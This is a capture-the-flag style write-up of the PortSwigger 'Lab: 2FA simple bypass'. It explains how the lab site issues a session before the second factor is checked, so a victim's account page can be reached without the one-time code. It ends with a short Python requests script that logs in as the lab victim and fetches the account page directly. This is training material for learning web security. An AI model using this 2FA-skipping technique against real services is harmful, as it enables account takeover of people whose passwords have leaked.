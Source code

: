 # Lab: 2FA simple bypass

This lab's two-factor authentication can be bypassed. You have already obtained a valid username and password, but do not have access to the user's 2FA verification code. To solve the lab, access Carlos's account page.

- Your credentials: wiener:peter
- Victim's credentials carlos:montoya

We log in with our credentials to observe the behavior of the site. It asks for a 2FA, we click on `Email client`, receive the `OTP`, access the `wiener` dashboard, and from there, we obtain the general path to the dashboards.

We log in with Carlos' credentials and see that it asks for a 2FA:
![image](https://github.com/user-attachments/assets/0e1ee201-4512-4f60-8c8b-26616ace93bb)

When we check the Burp history, we can see that the 2FA is processed after the login has been handled:
![image](https://github.com/user-attachments/assets/a681a079-25bf-4112-bc79-989d14d037a1)

We also see that the server returns a `302 Found` with the session cookie, which gives us a hint that the 2FA is processed after successfully logging in:
![image](https://github.com/user-attachments/assets/ff1215bb-1bd2-42f2-b128-4a40528b9434)


We navigate to the main dashboard of the user `carlos` and complete the lab:
![image](https://github.com/user-attachments/assets/70c8b194-7bd8-40ab-9b9a-d1b50a5a4297)

---
# Exploit

```python
import re
import requests
import urllib3


urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)
proxies = {'http': 'http://127.0.0.1:8080', 'https': 'http://127.0.0.1:8080'}
session = requests.Session()
url = 'https://0a2000bd04de5848917b62f2000c004f.web-security-academy.net'

url_login = url + "/login"
data = {"username":"carlos", "password":"montoya"}
resp = session.post(url_login, data=data, verify=False, proxies=proxies)

url_carlos_account = url + "/my-account?id=carlos"
r_carlos_account = session.get(url_carlos_account, verify=False, proxies=proxies)

if r_carlos_account.status_code == 200:
    print("Congratulations, you solved the lab!")
```
